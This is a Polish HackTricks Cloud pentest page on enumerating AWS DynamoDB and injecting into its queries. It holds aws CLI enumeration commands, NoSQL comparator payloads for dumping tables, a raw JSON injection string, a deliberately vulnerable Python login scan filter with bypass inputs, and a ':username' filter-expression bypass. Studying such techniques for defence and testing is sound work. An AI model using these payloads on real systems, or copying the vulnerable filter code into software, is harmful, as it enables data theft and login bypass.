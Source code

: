 # AWS - DynamoDB Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## DynamoDB

### Basic Information

Amazon DynamoDB jest przedstawiany przez AWS jako **w pełni zarządzana, bezserwerowa, klucz-wartość baza danych NoSQL**, dostosowana do zasilania aplikacji o wysokiej wydajności, niezależnie od ich rozmiaru. Usługa zapewnia solidne funkcje, w tym wbudowane środki bezpieczeństwa, nieprzerwane kopie zapasowe, automatyczną replikację w wielu regionach, zintegrowane pamięci podręczne w pamięci oraz wygodne narzędzia do eksportu danych.

W kontekście DynamoDB, zamiast tworzyć tradycyjną bazę danych, **tworzone są tabele**. Każda tabela wymaga określenia **klucza partycji** jako integralnego elementu **klucza głównego tabeli**. Ten klucz partycji, zasadniczo **wartość haszująca**, odgrywa kluczową rolę zarówno w pobieraniu elementów, jak i w dystrybucji danych w różnych hostach. Ta dystrybucja jest kluczowa dla utrzymania zarówno skalowalności, jak i dostępności bazy danych. Dodatkowo istnieje możliwość dodania **klucza sortującego**, aby jeszcze bardziej udoskonalić organizację danych.

### Encryption

Domyślnie, DynamoDB używa klucza KMS, który \*\*należy do Amazon DynamoDB,\*\* a nie nawet do zarządzanego klucza AWS, który przynajmniej należy do twojego konta.

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### Backups & Export to S3

Możliwe jest **zaplanowanie** generowania **kopii zapasowych tabeli** lub tworzenie ich na **żądanie**. Ponadto możliwe jest również włączenie **odzyskiwania w czasie rzeczywistym (PITR) dla tabeli.** Odzyskiwanie w czasie rzeczywistym zapewnia ciągłe **kopie zapasowe** danych DynamoDB przez **35 dni**, aby pomóc w ochronie przed przypadkowymi operacjami zapisu lub usunięcia.

Możliwe jest również eksportowanie **danych tabeli do S3**, ale tabela musi mieć **włączone PITR**.

### GUI

Istnieje GUI dla lokalnych usług Dynamo, takich jak [DynamoDB Local](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/), [dynalite](https://github.com/mhart/dynalite), [localstack](https://github.com/localstack/localstack) itd., które mogą być przydatne: [https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### Enumeration
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### Nieautoryzowany dostęp

{% content-ref url="../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md" %}
[aws-dynamodb-unauthenticated-access.md](../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md)
{% endcontent-ref %}

### Privesc

{% content-ref url="../aws-privilege-escalation/aws-dynamodb-privesc.md" %}
[aws-dynamodb-privesc.md](../aws-privilege-escalation/aws-dynamodb-privesc.md)
{% endcontent-ref %}

### Po eksploatacji

{% content-ref url="../aws-post-exploitation/aws-dynamodb-post-exploitation.md" %}
[aws-dynamodb-post-exploitation.md](../aws-post-exploitation/aws-dynamodb-post-exploitation.md)
{% endcontent-ref %}

### Utrzymywanie

{% content-ref url="../aws-persistence/aws-dynamodb-persistence.md" %}
[aws-dynamodb-persistence.md](../aws-persistence/aws-dynamodb-persistence.md)
{% endcontent-ref %}

## Wstrzykiwanie do DynamoDB

### Wstrzykiwanie SQL

Istnieją sposoby na dostęp do danych DynamoDB za pomocą **składni SQL**, dlatego typowe **wstrzykiwania SQL są również możliwe**.

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

### Wstrzykiwanie NoSQL

W DynamoDB różne **warunki** mogą być używane do pobierania danych, jak w typowym wstrzykiwaniu NoSQL, jeśli możliwe jest **łączenie więcej warunków w celu pobrania** danych, można uzyskać ukryte dane (lub zrzucić całą tabelę).\
Można tutaj znaleźć warunki obsługiwane przez DynamoDB: [https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Condition.html)

Zauważ, że **różne warunki** są obsługiwane, jeśli dane są uzyskiwane za pomocą **`query`** lub za pomocą **`scan`**.

{% hint style="info" %}
W rzeczywistości, akcje **Query** muszą określić **warunek "EQ" (równa się)** w **kluczu głównym**, aby działały, co sprawia, że są **mniej podatne na wstrzykiwania NoSQL** (a także ogranicza operację).
{% endhint %}

Jeśli możesz **zmienić porównanie** lub dodać nowe, możesz uzyskać więcej danych.
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

### Surowa injekcja Json

{% hint style="danger" %}
**Ta podatność opiera się na filtrze skanowania dynamodb, który jest teraz przestarzały!**
{% endhint %}

**DynamoDB** akceptuje obiekty **Json** do **wyszukiwania** danych w bazie. Jeśli odkryjesz, że możesz pisać w obiekcie json wysyłanym do wyszukiwania, możesz wykonać zrzut bazy danych, wszystkich jej zawartości.

Na przykład, wstrzykując w żądaniu takim jak:

{% code overflow="wrap" %}
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
{% endcode %}

atakujący mógłby wstrzyknąć coś takiego:

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

naprawić warunek "EQ" szukając ID 1000, a następnie szukając wszystkich danych z ciągiem Id większym niż 0, co obejmuje wszystko.

Inny **wrażliwy przykład używający logowania** mógłby być:
```python
scan_filter = """{
"username": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
},
"password": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
}
}
""" % (user_data['username'], user_data['password'])

dynamodb.scan(TableName="table-name", ScanFilter=json.loads(scan_filter))
```
To byłoby podatne na:
```
username: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
password: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
```
### :property Injection

Niektóre SDK umożliwiają użycie ciągu wskazującego filtrację, która ma być przeprowadzona, jak: 

{% code overflow="wrap" %}
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
{% endcode %}

Musisz wiedzieć, że wyszukiwanie w DynamoDB w celu **zastąpienia** wartości **atrybutu** w **wyrażeniach filtrujących** podczas skanowania elementów, tokeny powinny **zaczynać się** od znaku **`:`**. Takie tokeny będą **zastępowane** rzeczywistą **wartością atrybutu w czasie wykonywania**.

Dlatego logowanie, jak to poprzednie, można obejść za pomocą czegoś takiego:
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
